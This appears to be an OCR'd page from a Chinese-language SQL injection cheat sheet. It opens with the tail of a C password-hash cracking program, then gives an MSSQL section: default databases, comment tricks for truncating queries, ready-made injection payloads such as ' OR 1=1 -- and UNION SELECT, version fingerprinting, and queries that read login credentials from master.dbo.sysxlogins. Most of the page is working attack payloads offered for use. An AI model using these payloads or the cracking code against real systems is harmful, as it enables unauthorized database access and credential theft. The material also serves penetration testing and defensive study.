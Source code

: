 ```text
        putchar(pass[i]);
      putchar('\n');
      break;
    }
  }
  if (len > MAX_LEN)
    printf("Pass not found\n");
}

int main(int argc, char *argv[])
{
  int i;
  if (argc <= 1)
    printf("usage: %s hash\n", argv[0]);
  for (i = 1; i < argc; i++)
    crack(argv[i]);
  return 0;
}
```

### 0x02 MSSQL

#### 默认的数据库

```text
pubs    在MSSQL 2005上不可用
model    在所有版本中都可用
msdb    在所有版本中都可用
tempdb    在所有版本中都可用
northwind    在所有版本中都可用
information_schema    MSSQL 2000 或更高版本可用
```

#### 注释查询

以下内容可用于注释查询：

```text
/* -- C风格的评论
- -- SQL注释
;％00 -- 空字节


Example:
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3/*';
```

#### 测试版本

`@@VERSION`

```text
Example:
True if MSSQL version is 2008.
SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%';

tips:
输出还将包含Windows操作系统的版本。
数据库凭证
数据库..Table    master..syslogins, master..sysprocesses
Columns    name, loginame
Current User    user, system_user, suser_sname(), is_srvrolemember('sysadmin')
Database Credentials    SELECT user, password FROM master.dbo.sysxlogins


```